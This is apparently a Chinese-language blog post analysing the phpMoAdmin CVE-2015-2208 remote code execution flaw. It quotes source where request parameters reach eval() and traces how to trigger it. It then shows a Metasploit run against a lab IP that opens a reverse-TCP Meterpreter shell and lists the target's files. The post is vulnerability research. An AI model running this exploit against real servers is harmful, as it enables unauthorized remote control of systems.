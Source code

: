 ```yaml
---
layout: post
title: phpMoadmin CVE-2015-2208 远程代码执行漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**phpMoAdmin 是一个用PHP 开发的在线MongoDB 管理工具，可用于创建、删除和修改数据库和索引，提供视图和数据搜索工具，提供数据库启动时间和内存的统计，支持JSON 格式数据的导入导出。**

<img src="http://7xiw31.com1.z0.glb.clouddn.com/65ehrtdfgx.png">

>/phpmoadmin/moadmin.php 第555行

    public function listRows($collection) {
        foreach ($this->sort as $key => $val) { //cast vals to int
            $sort[$key] = (int) $val;
    }
    $col = $this->mongo->selectCollection($collection);
    $find = array();
	if (isset($_GET['find']) && $_GET['find']) {
		$_GET['find'] = trim($_GET['find']);
		if (strpos($_GET['find'], 'array') === 0) {
			eval('$find = ' . $_GET['find'] . ';');
		} else if (is_string($_GET['find'])) {
			if ($findArr = json_decode($_GET['find'], true)) {
				$find = $findArr;
			}
		}
	}

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**在这个`listRows`方法中，eval执行GET接收的`find`参数，首先`$find`变量初始化为数组，而且通过strpos判断传入的值是否为数组。看看哪里调用了这个方法。**

>/phpmoadmin/moadmin.php 第836行

	if (isset($_GET['collection']) && $action != 'listCollections' && method_exists(self::$model, $action)) {
        $this->mongo[$action] = self::$model->$action($_GET['collection']);
        $this->mongo['count'] = self::$model->count;
        $this->mongo['colKeys'] = self::$model->colKeys;
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**首先需要设置`collection`，根据`$action`跟踪到第785行，这里就可以通过`action`接收`listRows`参数来调用`listRows`方法。**

	$action = (isset($_GET['action']) ? $_GET['action'] : 'listCollections');

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**整体触发漏洞的逻辑就是首先通过`action`接收`listRows`，调用这个方法后，eval就会执行`$find`传入的值。由于过滤不严，即可执行传入的任意恶意代码。**

<img src="http://7xiw31.com1.z0.glb.clouddn.com/r67jtydhrgdfs.png">

>/phpmoadmin/moadmin.php 第693行

	public function saveObject($collection, $obj) {
        eval('$obj=' . $obj . ';'); //cast from string to array
        return $this->mongo->selectCollection($collection)->save($obj);
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**`saveObject`函数中eval执行了形参$obj，找找哪里调用了这个函数。**

>/phpmoadmin/moadmin.php 第786行

	if (isset($_POST['object'])) {
            if (self::$model->saveObject($_GET['collection'], $_POST['object'])) {
                return $this->_dumpFormVals();
            } else {
                $action = 'editObject';
                $_POST['errors']['object'] = 'Error: object could not be saved - check your array syntax.';
            }
    }

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**开头检查POST是否传输了`object`，随后内包含的if进行判断，这个过程即调用了当前类的`saveObject`方法，POST传入`object`参数的值带入eval后就造成了代码执行。**

<img src="http://7xiw31.com1.z0.glb.clouddn.com/Screen%20Shot%202016-03-06%20at%2012.24.03%20AM.png">

>Msf也已经更新了此漏洞的Exploit:

	msf > use exploit/multi/http/phpmoadmin_exec
	msf exploit(phpmoadmin_exec) > show options
	
	Module options (exploit/multi/http/phpmoadmin_exec):
	Name       Current Setting  Required  Description
	----       ---------------  --------  -----------
	Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
	RHOST                       yes       The target address
	RPORT      80               yes       The target port
	SSL        false            no        Negotiate SSL/TLS for outgoing connections
	TARGETURI  /                yes       The URI path of the PHPMoAdmin page
	VHOST                       no        HTTP server virtual host
	
	Exploit target:
	
	Id  Name
	--  ----
	0   PHPMoAdmin
	
	msf exploit(phpmoadmin_exec) > set RHOST 172.16.20.136
	RHOST => 172.16.20.136
	msf exploit(phpmoadmin_exec) > set TARGETURI /phpmoadmin
	TARGETURI => /phpmoadmin
	msf exploit(phpmoadmin_exec) > exploit
	
	[*] Started reverse TCP handler on 172.16.20.1:4444
	[*] Executing payload...
	[*] Sending stage (33684 bytes) to 172.16.20.136
	[*] Meterpreter session 1 opened (172.16.20.1:4444 -> 172.16.20.136:33492) at 2015-03-05 22:34:56 +0800
	
	meterpreter > ls
	Listing: /php/www/phpmoadmin
	=================================
	
	Mode              Size    Type  Last modified              Name
	----              ----    ----  -------------              ----
	100644/rw-r--r--  31713   fil   2015-03-05 21:42:58 +0800  LICENSE
	100644/rw-r--r--  5078    fil   2015-03-05 21:42:58 +0800  README.textile
	100644/rw-r--r--  1858    fil   2015-03-05 21:42:58 +0800  change.log
	100644/rw-r--r--  111430  fil   2015-03-05 21:42:58 +0800  moadmin.php